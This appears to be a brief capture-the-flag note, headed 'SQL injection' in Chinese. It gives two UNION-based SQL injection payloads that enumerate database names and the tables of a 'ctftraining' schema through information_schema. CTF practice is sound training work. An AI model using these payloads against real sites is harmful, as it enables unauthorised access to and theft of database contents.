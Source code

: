 #SQL注入 
```sql
?id=-1)))))) union select schema_name,2 from information_schema.schemata%23


?id=-1)))))) union select group_concat(table_name),2 from information_schema.tables where table_schema='ctftraining'%23

```

https://www.nssctf.cn/note/set/2169